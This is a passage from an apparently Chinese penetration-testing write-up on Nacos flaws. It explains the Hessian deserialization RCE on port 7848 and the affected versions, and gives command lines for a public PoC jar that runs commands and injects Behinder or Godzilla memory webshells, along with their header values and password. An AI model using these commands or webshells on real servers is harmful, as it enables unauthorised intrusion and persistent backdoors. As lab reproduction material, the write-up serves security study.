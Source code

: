 ![1745678357_680cf015131458ecbdea9.png!small?1745678358033](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiak66ibP7Y3FSIoGXYuL2fv61M9bIa68NKdGtyvLsrjObYNvHQmnib2INg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
在Nacos发现dataid为db-config  
  
![1745678469_680cf0859a5bea8fa0b14.png!small?1745678470753](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaTEqrGSjgdnmfHOnGyjuXgrJJCQricIKkZj842tJtdoVtWVc2GIBA9fQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![1745678541_680cf0cd93657628b8f30.png!small?1745678542500](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaf6QDfDALneyic81IicRCoofd1NmuvDt8pLN0DhYNb8CiaQz8P5FibHGDMQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
我只是复现到这了，试了几个，没成功就停了。  
  
这个是靶场成功的链接  
  
内网渗透 -春秋云镜篇之Hospital-腾讯云开发者社区-腾讯云  
### 8.Nacos Hessian 反序列化漏洞  
  
由于7848端口采用hessian协议传输数据，反序列化未设置白名单导致存在RCE漏洞。  
  
影响版本：1.4.0<=Nacos<1.4.6, 2.0.0<Nacos<2.2.3  
  
Nacos 1.x在单机模式下默认不开放7848端口，故该情况通常不受此漏洞影响，但是集群模式受影响。然而，2.x版本无论单机或集群模式均默认开放7848端口。  
  
主要受影响的是7848端口的Jraft服务。  
  
漏洞复现  
  
测试版本nacos 2.2.2  
  
poc：https://github.com/c0olw/NacosRce  
```
```  
  
执行命令同时注入内存马  
  
![1745678676_680cf1546f94f76df98f3.png!small?1745678677661](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiauRx7CocqfL7tSOPPwzvCOQlCicwmaTWM009ibP6fiaEsGp7b9BrlGV3VQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
直接使用webshell管理工具进行链接即可  
> 自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"  
> java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"  
  
只注入内存马  
> java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell  
> 内存马说明：  
  
一、冰蝎内存马：  
  
1、需要设置请求头x-client-data:rebeyond  
  
2、设置Referer:https://www.google.com/  
  
3、路径随意  
  
4、密码rebeyond  
  
二、哥斯拉内存马：  
  
1、需要设置请求头x-client-data:godzilla  
  
2、设置Referer:https://www.google.com/  
  
3、路径随意  
  